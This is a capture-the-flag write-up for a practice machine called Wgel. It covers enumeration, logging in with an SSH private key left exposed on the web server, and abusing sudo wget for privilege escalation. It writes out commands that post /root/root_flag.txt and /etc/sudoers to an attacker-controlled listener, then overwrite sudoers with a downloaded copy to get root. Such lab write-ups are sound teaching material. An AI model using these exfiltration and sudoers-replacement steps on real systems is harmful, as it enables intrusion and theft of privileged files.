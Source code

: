 # [cd ../](../index.md)
# Wgel CTF
> Can you exfiltrate the root flag?

# Start

## Enumeration

### Nmap
[nmaps](nmaps.txt)  

- We have port `22` and `80` open  
Port 80 source:
```
<!-- Jessie don't forget to udate the webiste -->
```
- We got the username `jessie`
### Dirsearch
- We found `/sitemap`  
![website](website.png)

- Run dirsearch again but now in `/sitemap`  
![ds_sitemap](ds_sitemap.png)
- Go to `/sitemap/.ssh` and download the `id_rsa` [file](files/id_rsa)

## Connecting to ssh
```
chmod 600 id_rsa
ssh -i id_rsa jessie@10.10.109.62
```
![usertxt](usertxt.png)

## Privilege escalation

`sudo -l` tell us everything we need.  
![sudo_-l](sudo_-l.png)

### Exploiting the vuln
Attacker:
```
nc -lvp 1337 > root.txt
```

Victim:
```
sudo wget --post-file=/root/root_flag.txt 10.8.22.204:1337
```

[root.txt](files/root.txt)  
And just hold enter some time then just crtl+c and `cat root.txt`
- We got it  
![rootflag](rootflag.png)

## Getting a root shell
- Get the `/etc/sudoers` file from the victim

```
sudo wget --post-file=/etc/sudoers 10.8.22.204:1337
```
[sudoers](files/sudoers_og)

- Edit it so jessie could just `sudo su`
  Just replace `NOPASSWD: /usr/bin/wget` with `NOPASSWD: ALL` and u r done  
  ![sudoersedit](sudoers.png)  
  [sudoers_edited](files/sudoers)

- Download on victim, while replacing the original file

```
cd /etc
sudo wget 10.8.22.204:8000/files/sudoers --output-document=sudoers
```

Now we have the edited file
```
sudo su
```
We got the root shell!!  
![rootshell](rootshell.png)
